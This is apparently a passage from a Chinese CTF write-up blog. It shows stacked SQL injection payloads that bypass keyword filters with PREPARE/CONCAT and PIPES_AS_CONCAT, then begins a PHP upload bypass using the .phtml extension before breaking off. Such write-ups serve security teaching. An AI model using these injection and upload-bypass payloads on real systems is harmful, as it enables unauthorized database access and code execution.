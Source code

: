 执行结果如下： <img src="https://img-blog.csdnimg.cn/20210607231613402.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 9、这里检测到了 set 和 prepare 关键词，但 strstr 这个函数并不能区分大小写，我们将其大写即可，最终 Payload 如下：

```
?inject=1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#
拆分开来如下：
?inject=1';
Set @sql = CONCAT('se','lect * from `1919810931114514`;');
Prepare stmt from @sql;
EXECUTE stmt;
#


```

获得 Flag：

<img src="https://img-blog.csdnimg.cn/20210607231719682.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

### No.13 SUCTF Easysql 之堆叠注入

1、题目如下： <img src="https://img-blog.csdnimg.cn/2021060814551980.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210608145538379.png" alt="在这里插入图片描述"> 2、先试试堆叠注入查询数据库名称： <img src="https://img-blog.csdnimg.cn/20210608145624655.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">2、进一步通过堆叠注入查询表名： <img src="https://img-blog.csdnimg.cn/20210608145723283.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">3、进一步想读取字段名，发现有过滤： <img src="https://img-blog.csdnimg.cn/20210608150415771.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">在这查列名发现 from 进入了黑名单，无法进展。经查（源码泄露），背后逻辑是：

```
select $_POST[query] || flag from flag


```

如何判断结构是这样？？因为在输入任意字符后输出结果都为 Array ( [0] =&gt; 1 )，那这个 1 肯定是或运算产生的布尔值，所有此处一定有或运算。

**4、官方解法：**

```
1;set sql_mode=PIPES_AS_CONCAT;select 1


```

Payload 释义：

```
1、构造成select 1;set sql_mode=PIPES_AS_CONCAT;select 1 || flag FROM Flag，
2、其中 PIPES_AS_CONCAT 能将 || 视为字符串连接符而非或运算符，
3、实际运行为select 1;set sql_mode=PIPES_AS_CONCAT;select "1"+flag from Flag


```

执行效果如下： <img src="https://img-blog.csdnimg.cn/2021060815093516.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

### No.14 极客大挑战 phtml 上传绕过

1、看题目： <img src="https://img-blog.csdnimg.cn/20210609093615454.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/2021060909363829.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 2、可正常上传图片文件，但是不允许上传 PHP 文件： <img src="https://img-blog.csdnimg.cn/20210609094109667.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210609095344127.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 3、常见的 PHP 文件后缀绕过可试一下`php,php3,php4,php5,phtml`，如下发现 phtml 后缀的有可能绕过，但是服务端过滤了`&lt;?`符号： <img src="https://img-blog.csdnimg.cn/20210609101055312.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210609101126749.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">4、服务端过滤了`&lt;?`符号，没关系，先来了解下 phtml 后缀，phtml 一般是指嵌入了 php 代码的 html 文件，但是同样也会作为 php 解析。因此可以构造以下 Payload：
